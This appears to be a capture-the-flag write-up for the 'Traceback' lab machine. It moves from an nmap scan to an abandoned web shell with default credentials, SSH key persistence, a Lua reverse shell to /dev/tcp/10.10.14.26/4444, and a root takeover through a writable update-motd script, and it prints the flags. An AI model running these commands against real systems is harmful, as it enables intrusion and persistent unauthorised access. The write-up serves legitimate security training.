


# Traceback

## SYN Scan
```
nmap -sS -sV -O -p- -v -T4 -Pn -oA nmap/full_syn 10.10.10.181

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## The Web Application


Found a hint in index page's source code.
```HTML
<!--Some of the best web shells that you might need ;)-->
```

## The Web Shell
Found the web shell in `/smevk.php`

```
[Status: 200, Size: 1261, Words: 318, Lines: 59]
| URL | http://10.10.10.181/smevk.php
    * FUZZ: smevk.php
```



Logged in by using `admin:admin` credentials.



## Persistent Login via SSH
Generated a SSH key pair and appended the public one into `/home/webadmin/.ssh/authorized_keys` file.

```
$ cat /home/webadmin/.ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDyZdb9fd30hxmJEMdYE5gPo1vFRvJKNxELcYiHSSyt11aAhVkB6eqqX7EU9yO3AGaLQwOO0xsqwTQhPF6swGqv32MZaoceCUJa9einvhvQ0uu5sx3doccoCej5IDNdcwvpVwrq+qTX3jQ2XBlO80ywGkvUoiRR/b0DV7Rk5J73Bxqr+6oMcBmelrtyuaOROTNSpgDp010qJHpnRoua3NsV6bgfDJogc4OsHs6U+70nmwghE3F6Le43RygxDtd5ok2OcHjXo12g+IAR1bWhQpTb1g2p0DUTEq+hgs1/6yOo3yl3F+EWIt3PIZvizNzVbfppTJuw0W4StDwnUQSSKnOq7MYd4dLhIGkfDf1HZpE0r958292TjEQY9Yo0z6f1RrQJWSq2kKmBZJiO+58nhzH3bdzOXxepeTPPyjb/eQvx5UGX9ZGhKM7QKhPC3GRxqObWCGmuwPFIaWu+CUI6T5CNR/83lvcTw0GILemACnlFNvXihpXrDL9HHjF+5ZPwrIc=
```

```
$ ssh -i ssh/webadmin_id_rsa -l webadmin 10.10.10.181

webadmin@traceback:~$ id
uid=1000(webadmin) gid=1000(webadmin) groups=1000(webadmin),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
```

## Local User Enumeration
```
webadmin:x:1000:1000:traceback,,,:/home/webadmin:/bin/bash
sysadmin:x:1001:1001::/home/sysadmin:/bin/sh
```

## note.txt
```
$ ls -l /home/webadmin/note.txt
-rw-rw-r-- 1 sysadmin sysadmin 122 Mar 16  2020 /home/webadmin/note.txt
```

```
$ cat /home/webadmin/note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

## NOPASSWD Executable
```
webadmin@traceback:~$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

```
webadmin@traceback:/var/www/html$ sudo -H -u sysadmin /home/sysadmin/luvit
Welcome to the Luvit repl!
```

## Privilege Escalation (sysadmin)
Executed `Bash` command in `Lua` interpreter (/home/sysadmin/luvit).

```lua
require('os');
os.execute('/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.26/4444 0>&1"');
```

```
(remote) sysadmin@traceback:/$ id
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)
```

## The User Flag
```
(remote) sysadmin@traceback:/home/sysadmin$ ls -l user.txt 
-rw------- 1 sysadmin sysadmin 33 Apr  9 17:41 user.txt
```

```
(remote) sysadmin@traceback:/home/sysadmin$ cat user.txt 
75a64fa29a41698d4e66fa863ce9a97f
```

## Group Writable File
```
[+] Interesting GROUP writable files (not in Home) (max 500)
  Group sysadmin:
/etc/update-motd.d/50-motd-news
/etc/update-motd.d/10-help-text
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/80-esm
```

### update-motd - dynamic MOTD generation
https://wiki.ubuntu.com/UpdateMotd

### Exploitation
When logged in as any user `Welcome to Xh4H land` is prompted and it is originally implemented in `/etc/update-motd.d/00-header`.

```
$ ssh -i ssh/webadmin_id_rsa -l webadmin 10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land
```

Added `echo "Hacked by Talha"` into the header file and it is executed when logged in.

```
$ ssh -i ssh/webadmin_id_rsa -l webadmin 10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
Hacked by Talha

Welcome to Xh4H land
```

## Privilege Escalation (root)
Appended this code to add an authorized key into `/root/.ssh/authorized_keys` to gain a persistent shell.
```
echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC0Ryus+Q5b5rQExLDsEjulQ5M5BxjZcO+qbqszrB+mROUF+7wURfgTksPoNUXE7V7Ajl8AGSJXDt+EBBvGEIQIzTvSGzj2j1B2YVFWzJ/19dXcnWOzy76yVLJ/33NUw2Tps/Ytg9kGbCFb1k3/+8esOJUKiVGjGCMThi0IRe+LD1uhk3/mrxCWXYVSdlSR5wF1riluawMwAwfzB9tmj7f6G3LMabzIFyB5F221ZQwVdD4/5fP3sPm6G6coa1wgShb3nCoujlouIqxtPVH0ZW4P793QjWz0CsMgcoYjXXHpBupVw6KHEnPYIyZeAkJmZLvC6n2jWftZ5Oxs3VCvnvtnokat2Y/VyLBSaM+ZiEczng10XygbaTUMs1YRKhylazcRtT3f/8WrDt683Jj+i4kJSUuoAJvjTEpKtG3uoLal5LcEwfPWIg+lYN8mLKVHo4zYNR8eVvnz4YcJ7X20TxcCS/JNOcxFg1OOBa2nlYgkXkChgp5H6IEQ/4lDM8bBIKE=' > /root/.ssh/authorized_keys
```

```
root@traceback:~# id
uid=0(root) gid=0(root) groups=0(root)
```

## The Root Flag
```
root@traceback:~# ls -l /root/root.txt 
-r-------- 1 root root 33 Apr  9 17:41 /root/root.txt
```

```
36ed9161e0377a01fc616e2cb6545cb7
```
